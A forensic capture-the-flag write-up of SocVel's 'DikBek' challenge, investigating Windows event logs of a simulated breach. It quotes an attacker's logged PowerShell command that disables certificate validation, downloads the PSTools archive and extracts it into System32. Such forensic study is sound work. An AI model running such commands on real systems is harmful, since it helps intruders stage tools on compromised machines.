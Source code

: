 # DikBek

## DFIR, 3000 points

### Description

Professor Jan Vogel has spent the last 6 months developing an early detection system for the Novid Virus. But, one week before the public launch of the Metaalbekkanarie, the confidential research which was set to make the South African government Billions of Randelas was published on Github by attackers.

How could this have happened? 

For more information, check the [DikBek scenario backstory](https://socvel.com/dikbek.html#DikBek).

Author: [SocVel](https://twitter.com/socveldotcom)

### Solution

For this lab, I will explain my investigation work regarding this hack. To break down this exercise, I will focus on interesting questions asked in this SocVel's challenge. Thus, some questions might be omitted.

Most of the logs for this challenge uses the `.evtx` extension which are logs managed by Windows Event Viewer, you can get more information on [this Forensics Wiki](https://forensicswiki.xyz/wiki/index.php?title=Windows_XML_Event_Log_%28EVTX%29) or [this LogRhythm documentation](https://docs.logrhythm.com/docs/devices/ms-windows-event-log-sources/ms-windows-event-logging-xml-windows-defender/malware-detection-events-xml-logs
). In order to deal with Windows Event Log files on my Linux operating system, I converted them into XML files with a Python script `evtx_dump.py`, available in my GitHub repository [there](https://github.com/exti0p/ctf/blob/master/2021/SocVel/DFIR/evtx_dump.py).

#### Q1) To start their attack on this host, the attackers appear to have downloaded an archive full of tools. Proxy logs for the host also showed activity for the URL “https://docs.microsoft.com/en-us/sysinternals/” in the timeframe of the attack. To which folder was this downloaded tool archive extracted to? Give your answer as: c:\folder\subfolder\

Let's get into the swing of this lab: as the attackers consulted some Sysinternals documentation, it is very likely that they downloaded something from the Sysinternals suite, hence from something like `sysinternals.com`. I used this string as my filter and found that interesting entry:

```bash
ScriptBlockText: [System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $True };$web = (New-Object System.Net.WebClient);$result = $web.DownloadFile("http://download.sysinternals.com/files/PSTools.zip", "PSTools.zip");New-Item -ItemType "directory" C:\Windows\System32\PSTools -Force;Add-Type -Assembly 'System.IO.Compression.FileSystem'; [System.IO.Compression.ZipFile]::ExtractToDirectory("PSTools.zip", "C:\Windows\System32\PSTools");
```

The latter reveals the tools `PSTools` and its extracted path.
